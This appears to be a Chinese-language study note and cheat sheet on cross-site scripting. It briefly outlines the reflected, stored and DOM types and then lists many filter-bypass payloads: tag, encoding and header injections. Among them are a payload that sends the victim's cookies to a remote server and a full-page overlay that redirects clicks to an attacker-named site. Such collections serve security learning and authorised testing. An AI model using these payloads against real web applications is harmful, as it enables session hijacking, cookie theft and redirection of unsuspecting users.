 # XSS

Cross Site Scripting

==跨站脚本攻击==

基本原理就是将恶意的script插入js中



```javascript
<script>
    alert(document.cookie);
</script>
```



## Reflected

表单提交

```
?payload=<script>alert(‘1’)</script>
```



访问不到资源就弹窗

```
?payload=<img+src=http://192.168.1.1/a.jpg+onerror=alert('xss')>#
```



返回当前cookie信息到远程服务器上

```
?payload=<script>new Image().src="http://192.168.1.102/c.php?output="+document.cookie;</script>
```



## Stored

评论之类的，







## DOM

属性方法

document.write

标志#



DOM 型的 XSS 是基于文档对象模型 Document Objeet Model，DOM)的一种漏洞。说白了就是那些标签，比如`img`，`input`等这种类型的 DOM 节点标签而已，而 DOM 型 XSS 打的就是这些。









### 总结：

- 标签语法替换 
- 特殊符号干扰 
- 提交方式更改 
- 垃圾数据溢出 
- 加密解密算法 
- 结合其他漏洞绕过

标签闭合，双写绕过，大小写绕过，==alert，confirm，prompt==，构造a，img标签，转为Unicode编码，autofocus 属性，http报文中篡改等等

总的来说

```
"><script>alert(1)</script>
xx' onmouseover='alert(1)
xx" onmouseover="alert(1)
"> <a href="javascript:alert(1)">1</a>
"> <a Href="javascript:alert(1)">1</a>
"><sscriptcript>alert(1)</scscriptript>
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
?t_link=&t_history=&t_sort="%20onclick="alert(1)"%20type=""
Referer: "type="text" autofocus onfocus="alert(1)"
User-Agent: " type="text" autofocus onfocus="alert(1)"
Cookie: user=" type="button" onclick="alert(1)
'level1.php?name=test<img src=1 onerror=alert(1)>'
?keyword=<img%0Asrc=1%0Aonerror=alert(1)>
```





- audio

```
<audio src=x onerror=alert(47)>
<audio src=x onerror=prompt(1);>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
```



- video

```
<video src=x onerror=prompt(1);>
<video src=x onerror=alert(48)>
```



- div

```
<div style="width:expression(alert(/1/))">1</div>     ie浏览器执行
<div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>   url编码绕过
```



- math

```
<math><a/xlink:href=javascript:prompt(1)>Xss

<math href="javascript:javascript:alert(1)">Xss</math>
```



- button

```
<button onfocus=alert(1) autofocus>
<button/onclick=alert(1) >xss</button>
```



- keygen

```
<keygen/onfocus=prompt(1);>
<keygen onfocus=javascript:alert(1) autofocus>
```



- object

```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg    
      解码：<script>alert(1)</script>
```





综合应用直接

效果就是点击页面任何一个空白的位置都会跳转到目标网址

```
<div style="opacity:0;filter:alpha(opacity=20);background-color:#000;width:100%;height:100%;z-index:10;top:0;left:0;position:fixed;" onclick="document.location='http://attacker.co.nf/'"></div><script>alert("click anywhere on page");</script>
```



自动化工具fuzz



